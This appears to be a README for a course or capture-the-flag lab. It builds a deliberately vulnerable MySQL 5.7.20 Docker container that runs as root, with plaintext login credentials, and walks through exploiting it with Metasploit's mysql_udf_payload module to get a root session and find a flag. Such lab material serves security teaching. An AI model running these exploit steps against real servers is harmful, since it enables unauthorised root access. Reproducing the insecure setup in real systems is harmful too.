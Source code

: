 # Application overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Runtime environment setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/netsec-db/main/netsecdb-UbuntuServerX86-64.sh
    $ chmod +x netsecdb-UbuntuServerX86-64.sh
    $ ./netsec-db-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd netsecdb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tnetsecdb .
    $ docker run -d --name netsecdb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tnetsecdb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it netsecdb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    This script creates the following remote user: "tiaan.jerjerrod" with the password "doubleEFFORT!!"
# Run the exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME tiaan.jerjerrod
    > set PASSWORD doubleEFFORT!!
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/home/admin```.
